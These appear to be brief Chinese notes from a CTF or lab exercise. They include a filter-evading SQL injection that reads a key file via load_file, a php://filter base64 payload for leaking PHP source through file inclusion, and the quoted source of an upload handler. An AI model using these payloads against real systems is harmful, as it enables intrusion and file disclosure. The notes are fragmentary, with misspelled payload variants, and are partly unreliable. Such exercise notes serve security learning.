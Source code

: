```

id=1')/**/and/**/1=2/**/uniunionon/**/select/**/1,2,load_file('/tmp/360/key'),load_file('/tmp/360/key')#
```



http://123.60.47.130:8883

答案就在根目录下key.php文

http://123.60.47.130:8884

通过执行Linux命令获取webshell，答案就在根目录下key.php

http://123.60.47.130:8885

 管理员把日志保存下来了，大概分析了一下，有两个IP对服务器进行了攻击， 感觉攻击者的IP是 172.16.12.12 。

  日志下载地址：当前目录下的 access.log





http://123.60.47.130:11001/

要求：
不要看uploads目录遍历！！！
要求代码审计

http://123.60.47.130:11001/?op=upload

有可能是文件包含upload.php  强制拼接php 可以用截断

op=php://filter/convert.base64-enconde/resourece=upload

大小写

http://123.60.47.130:11001/?op=Php://filter/convert.base64-encode/resource=upload

```php
<?php
include 'common.php';

if(isset($_POST['submit']) && isset($_FILES['image'])) {
    $fn = $_FILES['image']['tmp_name'];
    $ft = $_FILES['image']['type'];

    if (!is_uploaded_file($fn)) {
        fatal('uploaded file corrupted');
    }

    $array = array('image/png');
    if (!in_array($ft, $array)) {
        fatal("只允许上传PNG格式哦！");
    }

    $imagekey = create_image_key();

    move_uploaded_file($fn, "uploads/$imagekey.png");
    header("Location:./success.php?key=$imagekey");
}
 else {
?>
<center>
<div class="article">
    <h2>Please Upload your image</h2>
    <form enctype="multipart/form-data" action="?op=upload" method="POST">
        <label for="image">Image file (max <?=MAX_IM_SIZE;?>x<?=MAX_IM_SIZE;?>): </label>
        <input type="file" id="image" name="image" />
        <br />
        <input type="submit" name="submit" value="Upload!" />
```